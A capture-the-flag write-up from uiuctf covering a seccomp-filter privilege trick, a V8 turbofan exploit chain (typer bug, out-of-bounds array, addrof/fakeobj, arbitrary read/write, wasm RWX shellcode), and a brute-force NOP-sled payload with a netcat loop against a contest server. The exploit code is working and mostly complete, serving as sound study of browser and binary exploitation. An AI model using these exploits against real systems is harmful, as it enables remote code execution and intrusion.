

# uiuctf
During uiuctf, I solved
 * `[kernel] insecure_seccomp`
 * `[pwn] should've had a v8`

I also tried doing `[pwn] gonnegtions`, but I couldn't get my exploit working on remote.

None of these write-ups are particularly detailed. I didn't try to figure out _why_ the `insecure_seccomp` exploit worked, the v8 challenge wasn't unique enough to justify in-depth elaboration, and `gonnegtions` wasn't even fully solved by me. I'm publishing these write-ups out of habit; they're not my best work.

## insecure_seccomp [2nd blood]

```c
int main(int argc, char *argv[])
{
        if (!faccessat(AT_FDCWD, "/flag", R_OK, AT_EACCESS)) {
                fprintf(stderr, "You can't be root to execute this! ... or can you?\n");
                return 1;
        }

        setuid(geteuid());

        execl("/bin/sh", "sh", NULL);
        perror("execl");
        return 1;
}
```

Just block the `faccessat()` call with a seccomp filter against the `faccessat` syscall:

```c
// mostly from seccomp-bpf.h
#include <stddef.h>
#define syscall_nr (offsetof(struct seccomp_data, nr))
#define EXAMINE_SYSCALL BPF_STMT(BPF_LD+BPF_W+BPF_ABS, syscall_nr)

struct sock_filter insns[] = {
    // Your filter here
    EXAMINE_SYSCALL,
    BPF_JUMP(BPF_JMP+BPF_JEQ+BPF_K, __NR_faccessat, 0, 1),
    BPF_STMT(BPF_RET+BPF_K, SECCOMP_RET_KILL),
    BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_ALLOW),
};
```

Compile `starter.c` with the new filter, and copy paste the output into `./seccomp_loader` on remote:

```sh
/usr/local/bin $ ./seccomp_loader ./exploit_me
4
0020 00 00 00000000
0015 00 01 0000010d
0006 00 00 00000000
0006 00 00 7fff0000
/usr/local/bin # cat /flag
uiuctf{seccomp_plus_new_privs_equals_inseccomp_e84609bf}
```

## should've had a v8 [3rd blood]

have fun with some v8 pwn. instructions in handout.

`cat exploit.js | nc shouldve-had-a-v8.chal.uiuc.tf 1337`

**author**: samsonites

**files**: `handout.tar.gz`

```tree
.
├── build-challenge.sh
├── diff.patch
├── Dockerfile
├── exploit.js.template
├── nsjail.cfg
├── README.txt
└── v8-binary
    ├── snapshot_blob.bin
    └── v8_hello_world
```

TL;DR [this bug](https://googleprojectzero.blogspot.com/2021/01/in-wild-series-chrome-infinity-bug.html) but with a simpler source of typer error (`String.prototype.indexOf()`)

The various float/BigInt conversion methods used in this writeup are stolen from [here](https://gist.github.com/owodelta/cda60b7acfd5516f3af0d754e8a40c40).

### Diff

```diff
--- a/src/compiler/js-create-lowering.cc
+++ b/src/compiler/js-create-lowering.cc
@@ -681,7 +681,7 @@ Reduction JSCreateLowering::ReduceJSCreateArray(Node* node) {
       int capacity = static_cast<int>(length_type.Max());
       // Replace length with a constant in order to protect against a potential
       // typer bug leading to length > capacity.
-      length = jsgraph()->Constant(capacity);
+      //length = jsgraph()->Constant(capacity);
       return ReduceNewArray(node, length, capacity, *initial_map, elements_kind,
                             allocation, slack_tracking_prediction);
     }

```

Bug 1 used to exist in-the-wild a few months ago --- Project Zero makes reference to it in [a blogpost](https://googleprojectzero.blogspot.com/2021/01/in-wild-series-chrome-infinity-bug.html) of theirs'. I'll talk about it in a bit, but you need to understand the 2nd bug first:

```diff
diff --git a/src/compiler/typer.cc b/src/compiler/typer.cc
index 0f18222236..0f76ad896e 100644
--- a/src/compiler/typer.cc
+++ b/src/compiler/typer.cc
@@ -2073,7 +2073,7 @@ Type Typer::Visitor::TypeStringFromCodePointAt(Node* node) {
 }

 Type Typer::Visitor::TypeStringIndexOf(Node* node) {
-  return Type::Range(-1.0, String::kMaxLength, zone());
+  return Type::Range(0, String::kMaxLength, zone());
 }

 Type Typer::Visitor::TypeStringLength(Node* node) {
```

Bug 2 is a turbofan typer bug. Strings in javascript have an `.indexOf(searchString)` method, and it's supposed to return -1 whenever `searchString` isn't present. This means that a call to `s1.indexOf(s2)` where `s2 not in s1` will be falsely assigned a `Range` of `(0, 0x1fffffe8)` during turbofan optimization:



If you've never seen a rectangle like the one in the picture before, you might want to see [this in-depth blog](https://doar-e.github.io/blog/2019/01/28/introduction-to-turbofan/) on how turbofan works.

Historically, Bug 2 would've been sufficient to get an out-of-bounds array index, by doing something along the lines of this:

```js
let float_arr = [1.1,2.2,3.3]
let obj_arr = [float_arr, 1]
function opt_me(s) {
	let n = s.indexOf("hi");
    n >>= 30; // -1, range(0,0)
    n *= 10; // -10, range(0,0)
    n = -n;  // 10, range(0,0)
    return float_arr[n] // float_arr[10]?
}
for (let i = 0; i < 0x10000; i++) opt_me("hi")
console.log(opt_me(""))
```

If you try to execute this yourself (on `./out.gn/x64.release/d8`), `console.log` will display `undefined`. The presence of [`CheckBounds` nodes](https://doar-e.github.io/blog/2019/05/09/circumventing-chromes-hardening-of-typer-bugs/) in turbofan blocks simple oob accesses like these. This is where the 1st bug comes in:

```js
function optimize_me (s) {   // if "hi" not in s:
    let n = s.indexOf("hi"); // value: -1, type: SMI[0,0x1fffffe8]
    n >>= 30                 // value: -1, type: SMI[0,0]
    return Array(n); // about to be explained!
}
for (let i = 0; i < 0x10000; i++) optimize_me("hi");
%DebugPrint(optimize_me("")) // Compile a debug build of d8 before doing this.
```

Arrays of length `n` can be initialised in JS by the `Array(n)` constructor. In particular, if turbofan infers that `n` is an [SMI[i,i]](https://v8.dev/blog/elements-kinds) where `0 <= i < 16`, the 1st bug optimizes the `Array(n)` call to create an array of capacity `i` and length `n`. Because of Bug 2, I can create an SMI where `i != n`, resulting in an array with `capacity < (uint64_t)length`:

```js
DebugPrint: 0x136e081a4349: [JSArray]
 - map: 0x136e08303951 <Map(PACKED_SMI_ELEMENTS)> [FastProperties]
 - prototype: 0x136e082cb959 <JSArray[0]>
 - elements: 0x136e0804222d <FixedArray[0]> [PACKED_SMI_ELEMENTS]
 - length: -1
 - properties: 0x136e0804222d <FixedArray[0]>
 - All own properties (excluding elements): {
    0x136e080446c1: [String] in ReadOnlySpace: #length: 0x136e0824215d <AccessorInfo> (const accessor descriptor), location: descriptor
 }
```

I actually had a lot of trouble getting to this point, because I didn't realise that the inferred `Range()` for `n` was so restrictive. With that done and said, I moved on to getting RCE.

### Boring stuff to get RCE from an oob JSArray
After achieving a negative array length, it didn't take long to convert the trivial bug into something resembling my previous CTF oob exploits:

```js
// Use the two bugs to create an oob array that can read/write over an obj_arr && float_arr.
let oob_arr, obj_arr, float_arr;
function opt_me(s) {
    let n = s.indexOf("hi");
    n >>= 30;   // -1, range(0,0). According to https://googleprojectzero.blogspot.com/2021/01/in-wild-series-chrome-infinity-bug.html this should pass the "constant-folding reducer"
    n *= 1000;  // -1000, range(0,0)
    n += 1      // -999, range(1,1)
    oob_arr = Array(n); // range(1,1) because oob_arr[0] needs to be assigned, and assigning a float to a FixedArray[0] would cause reallocation to a FixedDoubleArray[17]
    oob_arr[0] = 1.1; // convert the array to HOLEY_DOUBLE_ELEMENTS || FixedDoubleArray[1]
    obj_arr = [hex, 1.2]; // obj_arr of length 2 for better memory layout. Any pre-defined object (i.e. not just `hex`) will work here.
    float_arr = [1.1, 1.2]; // 2 elements required to create fakeobj
}
console.log("optimizing")
for (let i = 0; i < 0x10000; i++) opt_me("hi");
opt_me(""); // this sets globals oob_map, obj_map, float_map
for (let i = 0; i < 10; i++) console.log(oob_arr[i], hex(oob_arr[i].f2i()));
```

The last for-loop here exists so that I can find where `obj_arr` and `float_arr` lie, relative to `oob_arr`:

```js
1.1 0x3ff199999999999a
8.5544293515e-314 0x408042205
1.6289800116869642e-269 0x821362d08212e89 # <-- lower 32-bits here are obj_arr.map. figured out this one with trial and error, because it's impossible to run oob reads on the debug build for d8.
4.763796150676412e-270 0x804222d08243a41
8.5560618926e-314 0x408368d71
8.5544304345e-314 0x408042a95
1.1 0x3ff199999999999a # <-- this is the beginning of float_arr.elements
1.2 0x3ff3333333333333
4.763796150676345e-270 0x804222d082439f1 # <-- lower 32-bits here should be float_arr.map
8.5560619084e-314 0x408368d91
```

Getting the `addrof()` (named `getaddr()` here, because the authors named it that way in `exploit.js.template`)  and `fakeobj()` primitives are easy once you know the offsets:

```js
// create various primitives using the 3 arrays
let obj_backing_offset = 2   // empirical values, find using %DebugPrint() and logging
let float_backing_offset = 6
let obj_map = oob_arr[obj_backing_offset+obj_arr.length/2].flw();        // array map is located after elements
let float_map = oob_arr[float_backing_offset+float_arr.length].flw();
function getaddr(obj) {
        obj_arr[0] = obj;
        return oob_arr[obj_backing_offset].flw();
}
function fakeobj(addr) {
        oob_arr[obj_backing_offset] = addr.i2f();
        return obj_arr[0];
}
console.log('float_map (oob): '+hex(float_map));
```

Everything after that is really just standard stuff. Go for limited r/w first:

```js
// further upgrade to heap-wide r/w
float_arr[0] = float_map.i2f();
let elements_store = getaddr(float_arr)-BigInt(float_arr.length)*0x8n;
var fake_float_arr = fakeobj(elements_store);
function read64(addr) {
        float_arr[1] = (addr-0x8n+0x800000000n).i2f();
        return fake_float_arr[0].f2i();
}
function write64(addr, v) {
        float_arr[1] = (addr-0x8n+0x800000000n).i2f();
        fake_float_arr[0] = v.i2f();
}
function read32(addr) { return read64(addr).i2f().flw(); }
console.log('float_map (read32): '+hex(read64(getaddr(float_arr))));
```

And then use wasm + `ArrayBuffer`s to execute arbitrary shellcode:

```js
// Standard rwx shellcode execution
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11])
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var shellcode = wasm_instance.exports.main;
var wasm_addr = getaddr(wasm_instance);
let rwx_addr = read64(wasm_addr+8n*13n);
console.log('rwx page: ' + hex(rwx_addr));

let buf = new ArrayBuffer(0x100);
let uint32_arr = new Uint32Array(buf);
let backing_store_deref = getaddr(buf)+12n*8n;
console.log('altering backing store @ '+hex(backing_store_deref));
write64(backing_store_deref, rwx_addr)
var sc = [0x905f3eeb, 0x48909090, 0x204c031, 0xff63148, 0xec816605, 0x8d480fff, 0x89482434, 0xd23148c7, 0xfffba66, 0xfc03148, 0xff314805, 0x1c78040, 0x48c28948, 0x104c031, 0x8166050f, 0xc30fffc4, 0xffffbde8, 0x6c662fff, 0x742e6761, 0x007478] // cribbed from the original 20 lines of write32() calls provided
for (let i = 0; i < sc.length; i++) uint32_arr[i] = sc[i];
console.log('executing shellcode!')
shellcode();
```

That's it.

`uiuctf{v8_go_brrrr_e72df103}`

## Gonnegtions [unsolved :(]

I understand you're looking for a business gonnegtion. Maybe you can find one on `44.193.84.190`.

**author**: kmh

**files**: `Dockerfile` (implies `libc6-i386_2.31-0ubuntu9.2_amd64`), `gonnegtions`:

```python
    Arch:     i386-32-little   (!)
    RELRO:    Partial RELRO    (!)
    Stack:    Canary found
    NX:       NX disabled      (!)
    PIE:      PIE enabled
    RWX:      Has RWX segments (!)
```

## Solving locally

The program is really simple:

```c
int main() {
  void (*f)();
  setvbuf(stdout, 0, 2, 0);
  printf("Where to? ");
  scanf("%lu", &f);
  f();
}
```

The obvious solution here is to brute-force ASLR to _somewhere_. Every virtual memory address is randomized with roughly the same entropy:

```c
56568000-56569000 r-xp 00000000 00:48 18746738                           /run/gonnegtions
56569000-5656a000 r-xp 00001000 00:48 18746738                           /run/gonnegtions
5656a000-5656b000 r-xp 00002000 00:48 18746738                           /run/gonnegtions
5656b000-5656c000 r-xp 00002000 00:48 18746738                           /run/gonnegtions
5656c000-5656d000 rwxp 00003000 00:48 18746738                           /run/gonnegtions
56a79000-56a9b000 rwxp 00000000 00:00 0                                  [heap]
f7cee000-f7d0b000 r-xp 00000000 00:48 19281805                           /usr/lib32/libc-2.31.so
f7d0b000-f7e63000 r-xp 0001d000 00:48 19281805                           /usr/lib32/libc-2.31.so
f7e63000-f7ed3000 r-xp 00175000 00:48 19281805                           /usr/lib32/libc-2.31.so
f7ed3000-f7ed5000 r-xp 001e4000 00:48 19281805                           /usr/lib32/libc-2.31.so
f7ed5000-f7ed7000 rwxp 001e6000 00:48 19281805                           /usr/lib32/libc-2.31.so
f7ed7000-f7ed9000 rwxp 00000000 00:00 0
f7edc000-f7ede000 rwxp 00000000 00:00 0
f7ede000-f7ee1000 r--p 00000000 00:00 0                                  [vvar]
f7ee1000-f7ee2000 r-xp 00000000 00:00 0                                  [vdso]
f7ee2000-f7ee3000 r-xp 00000000 00:48 19281798                           /usr/lib32/ld-2.31.so
f7ee3000-f7f01000 r-xp 00001000 00:48 19281798                           /usr/lib32/ld-2.31.so
f7f01000-f7f0c000 r-xp 0001f000 00:48 19281798                           /usr/lib32/ld-2.31.so
f7f0d000-f7f0e000 r-xp 0002a000 00:48 19281798                           /usr/lib32/ld-2.31.so
f7f0e000-f7f0f000 rwxp 0002b000 00:48 19281798                           /usr/lib32/ld-2.31.so
ffd6f000-ffd90000 rwxp 00000000 00:00 0                                  [stack]
```

The decisive factor here is the location of `scanf()`'s buffer. `scanf()` will read up-to 0x1000 bytes of input contiguously into the heap:

```python
Where to? 4096aaaabaaacaaadaaa

Program received signal SIGSEGV, Segmentation fault.
0x00001000 in ?? ()
...
gef➤  grep aaaabaaacaaadaaa
[+] Searching 'aaaabaaacaaadaaa' in memory
[+] In '[heap]'(0x5655a000-0x5657c000), permission=rwx
  0x5655a1a4 - 0x5655a1b6  →   "aaaabaaacaaadaaa\n"
```

The obvious solution then, is to just run bruteforce onto a traditional NOP sled onto shellcode that'll leak `/flag.txt`.

```python
from pwn import *
context.binary = 'gonnegtions'
heap_base = 0x57500000 # random heap address
payload = str(heap_base+0x500).encode() + asm(shellcraft.nop()*0xf00+shellcraft.cat('/flag.txt'))+b'\n'
with open('payload', 'wb') as f: f.write(payload)
```

I opened up a local docker instance for the challenge, and tried out the payload:

```sh
$ echo 'test{flag}' > flag.txt
$ docker build -t gonnegtions .
$ docker run --rm -d -p '0.0.0.0:4499:1337' --privileged gonnegtions
$ for i in `seq 1 10000`
> do timeout 5 nc localhost 4499 < payload
> done | tee local.log
```

It worked:

```sh
$ grep flag local.log|tail -c 50
here to? Where to? Where to? Where to? test{flag}
```

I moved to try this on remote:

```sh
$ for i in `seq 1 10000`
> do timeout 5 nc 44.193.84.190 1337 < payload
> done | tee remote.log
```

It didn't work.

```sh
$ grep \{ remote.log
$ echo $?
1
```

I ran it again, and I still got no results. After the CTF, I got confirmation from the challenge authors that the heap is NOT rwx on remote, because the kernel version there was 5.8.
